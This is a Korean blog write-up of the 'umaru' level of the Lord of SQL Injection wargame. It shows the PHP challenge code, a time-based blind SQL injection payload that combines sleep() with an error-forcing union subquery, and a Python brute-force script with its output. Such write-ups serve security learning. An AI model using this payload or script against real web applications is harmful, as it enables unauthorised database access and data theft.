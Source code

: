```yaml
---
layout: post
title: ! "[Lord of SQL Injection : eagle-jump] LoS - umaru 문제풀이"
excerpt_separator: <!--more-->
comments : true
categories : [Wargame/Lord of SQL Injection]
tags:
  - Write-up
  - Lord of SQL Injection
---
```


내가 지금 문제를 풀고 있는 서버는 `los.rubiya.kr`인데, `los.eagle-jump.ord`에도 같은 문제가 있다.  

그런데 `eagle-jump` 서버의 마지막 문제는 `rubiya`의 서버에 없는 것 같아 따로 풀어보게 되었다.  

<!--more-->

코드는 다음과 같다.  

```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();

  function reset_flag(){
    $new_flag = substr(md5(rand(10000000,99999999)."qwer".rand(10000000,99999999)."asdf".rand(10000000,99999999)),8,16);
    $chk = @mysql_fetch_array(mysql_query("select id from prob_umaru where id='{$_SESSION[los_id]}'"));
    if(!$chk[id]) mysql_query("insert into prob_umaru values('{$_SESSION[los_id]}','{$new_flag}')");
    else mysql_query("update prob_umaru set flag='{$new_flag}' where id='{$_SESSION[los_id]}'");
    echo "reset ok";
    highlight_file(__FILE__);
    exit();
  }

  if(!$_GET[flag]){ highlight_file(__FILE__); exit; }

  if(preg_match('/prob|_|\./i', $_GET[flag])) exit("No Hack ~_~");
  if(preg_match('/id|where|order|limit|,/i', $_GET[flag])) exit("HeHe");
  if(strlen($_GET[flag])>100) exit("HeHe");

  $realflag = @mysql_fetch_array(mysql_query("select flag from prob_umaru where id='{$_SESSION[los_id]}'"));

  @mysql_query("create temporary table prob_umaru_temp as select * from prob_umaru where id='{$_SESSION[los_id]}'");
  @mysql_query("update prob_umaru_temp set flag={$_GET[flag]}");

  $tempflag = @mysql_fetch_array(mysql_query("select flag from prob_umaru_temp"));
  if((!$realflag[flag]) || ($realflag[flag] != $tempflag[flag])) reset_flag();

  if($realflag[flag] === $_GET[flag]) solve("umaru");
?>
```

뭔가 엄청 복잡 해 보인다.  

자세히 살펴보면, `reset_flag()` 라는 함수에서 `$new_flag`라는 변수를 생성한다.  

이 변수는 `랜덤숫자+qwer+랜덤숫자+asdf`를 `md5`로 해싱한 후 16글자만을 자른 값이다.  

그 후, 나의 `los_id`와 함께 테이블에 값을 저장한다.  

내가 넘길 수 있는 쿼리스트링은 `flag` 뿐이다.  

그런데 `$_GET['flag']`가 여러 곳에서 사용되는데, 내가 `flag`의 값을 넘겨주면, 몇 가지 필터링을 검사한 후 데이터베이스에 저장 된 나의 `flag`를 찾아 `prob_umaru_temp` 테이블에 저장한다.  

이 후, 이 테이블에 내가 입력 한 `flag`의 값을 임시로 새로 생성 한 테이블에 저장한다.  

그리고 원래 테이블에 저장되어 있던 `flag`의 값과, 임시 테이블에 저장되어 있는 `flag`의 값을 비교하는데, 만약 값이 다르거나 원래 테이블에 `flag`가 없다면 `reset_flag()` 함수를 실행시킨다.  

즉, `flag`를 맞추지 못하면 계속 랜덤 값으로 `flag`가 바뀐다. ㅠㅠ  

따라서 문제를 풀기 위해서는 다음과 같은 조건이 필요하다.  

> 1. flag의 값은 100글자를 넘기지 말 것  
> 2. flag가 갱신되지 않도록 update 쿼리문에서 에러를 발생시킬 것  
> 3. ,를 사용할 수 없기 때문에 sleep 함수를 사용해 값을 찾을 것  

일단 문제에서 해쉬값 중 16글자를 잘라 테이블에 저장하므로, `flag`의 길이는 16글자임을 알 수 있다.  

때문에 값만 찾아내면 된다.  

일단 위의 조건을 만족하는 쿼리를 찾기 위해 서버에서 이것저것 테스트 해 보았다.  

제일 먼저 찾은 쿼리는 다음과 같다.  

```
update prob_umaru_temp set flag=sleep(3 * (flag like 'a%')) + (select 1 union select 2)
```

이러면 먼저 `sleep()` 함수 내에서 `flag`의 값이 `a%`와 같은지를 비교하고, 같다면 `1`이 되기 때문에 `sleep(3*1)`이 만들어 진다.  

즉, 3초 동안 `sleep()` 함수를 실행하게 된다.  

반면 다를 경우에는 `flag like 'a%'`가 0이 되어 `sleep(3*0)`이 만들어 지기 때문에 `sleep()` 함수를 실행하지 않는다.  

`sleep()` 함수를 실행한 후에는 `+`연산으로 연결 된 `select 1 union select 2`를 실행하는데, 이 전 문제들에서도 사용했다시피 해당 쿼리는 에러를 유발한다.  

때문에 결과적으로 완성되는 쿼리는 에러가 발생하기 때문에 `update` 문을 실행하지 않게 되고, `prob_umaru_temp` 테이블과 `prob_umaru` 테이블에 저장된 `flag`의 값은 일치하기 때문에 `reset_flag()` 함수를 실행하지 않는다.  

그래서 이를 바탕으로 코드를 구현해서 테스트 해 보았는데, 아무리 해도 결과가 나오지 않았다.  

내 서버에서는 잘 되는데, 문제 서버에서는 안되길래 뭔가 설정이 다르게 되어있나 싶어서 연산자를 이것저것으로 바꿔 보았다.  

그 결과 `|`를 쓰니 값을 추출할 수 있었다.  

구현한 코드는 아래와 같다.  

```python
import urllib2
import urllib
import requests
import time

flag = ""
length = 16

url = "https://los.eagle-jump.org/umaru_6f977f0504e56eeb72967f35eadbfdf5.php?flag="
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find password"

for j in range(1, length + 1):
	for i in range(48, 123):
		try:
			start = time.time()
			query = url + "sleep(3 * (flag like '" + str(flag) + str(chr(i)) +"%')) | (select 1 union select 2)"
			r = requests.post(query, cookies=session)
		except:
			print "[-] Error occur"
			continue

		if (time.time() - start) > 3:
			flag += chr(i)
			print "[+] Found " + str(j), ":", flag
			break

print "[+] Found password : ", flag
print "[+] End"
```

이 코드를 돌리면 아래와 같은 결과를 얻을 수 있다.  

```
$ python ex.py 
[+] Start
[+] Find password
[+] Found 1 : 8
[+] Found 2 : 89
[+] Found 3 : 892
[+] Found 4 : 8925
[+] Found 5 : 89253
[+] Found 6 : 892531
[+] Found 7 : 8925316
[+] Found 8 : 89253169
[+] Found 9 : 89253169C
[+] Found 10 : 89253169CE
[+] Found 11 : 89253169CE9
[+] Found 12 : 89253169CE98
[+] Found 13 : 89253169CE987
[+] Found 14 : 89253169CE987D
[+] Found 15 : 89253169CE987D1
[+] Found 16 : 89253169CE987D15
[+] Found password :  89253169CE987D15
[+] End
```

`php`에서 `md5` 함수를 사용하면 알파벳 소문자로 값이 출력되므로, 데이터베이스에 저장된 값도 소문자로 이루어져 있을 것이다.  

따라서 알파벳 대문자를 소문자로 바꾸어 아래와 같이 입력했다.  

```
?flag=89253169ce987d15
```

`eagle-jump` 서버를 `All Clear` 했다!!!  

이제 `rubiya` 서버에도 몇 문제 안남았으니 빨리 다 풀어야지 ㅎㅎㅎ  

`UMARU Clear!`

![](/images/los/umaru/umaru_01.png)
